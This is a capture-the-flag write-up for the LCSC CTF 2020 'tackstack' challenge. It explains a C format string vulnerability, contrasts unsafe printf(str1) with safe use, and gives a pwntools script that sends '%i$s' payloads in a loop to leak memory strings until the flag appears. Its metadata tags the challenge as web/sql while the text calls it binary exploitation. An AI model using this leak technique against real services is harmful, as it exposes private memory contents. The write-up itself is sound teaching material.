 ```yaml
---
layout: writeup
title:  "tackstack"
date:   2020-04-04 17:10:05 +0200
event: "LCSC CTF 2020"
categories: [writeup]
ctf_categories: [web, sql]
author: "punshLineLama"
---
```

# tackstack

## TL;DR
 Exploit format string vuln, by dumping all strings from memory with the `%i$s`, for i in range(1,100).

## Description
The challenge was in the binary exploitation category, gave 100 points and had the following description:
```
Have you ever played Jenga? Tack Stack is like that game, but with tacks!

Connect with:
nc jh2i.com 50038
```

When connection to the server, there is a prompt, asking for data.
```
========================
|       TACKSTACK      |
========================


Welcome to TackStack!
How to play:
  * Stack your tacks!
Ready? Go!

Your tack:
```
When entering data, it was echoed back by the server. The first thing I checked, was if there is a format string vulnerability.

Thus I tested my hypothesis:
```
Your tack: %x%x
------------------------
|                      |
    4030bef273b780
|                      |
------------------------
```
We see that we get some values from the stack.

A format string vulnerability occurs in C, when the program prints a user-controlled buffer without the right formatting. E.g.:

```C

char str1[20];

printf("Gimme data: ");
scanf("%s", str1);

//Correct/safe way:
printf("%s\n", str1);

//False/vulnerable way:
printf(str1);

```

When there are format string parameters in the first argument of `printf` it pops arguments from the stack and displays them.


## Exploiting the Service

We can use this to dump all the strings from the program memory, starting from the stack by using the %s format string.

To print the i^th string on the stack, we can use the following format string: `%i$s`.
Now we just need to loop for n in [1..100] to and grep the flag.
Thus a little python script which does exactly this.


```python
from pwn import *

ret = ""
for i in range(1,100):
  #start remote connection
	p = remote("jh2i.com", 50038)
  #read from connection
	ret = p.recvuntil("tack: ")
  #send format string
	p.sendline("%"+str(i)+"$s")
  #check if crashed, and read the output
	try:
		ret = p.recvuntil("tack: ")
	except:
		print("crashed")
  # If we got the flag, print it and break the loop
	if("LLS{" in ret):
		print(ret)
		break
  #else close connection and restart the loop
	p.close()
```

Just wait a few iterations, and there we go, we get our flag:

```
Your tack:
------------------------
|                      |
    FLAG=LLS{tack_stack?_more_like_stack_attack}
|                      |
------------------------
```
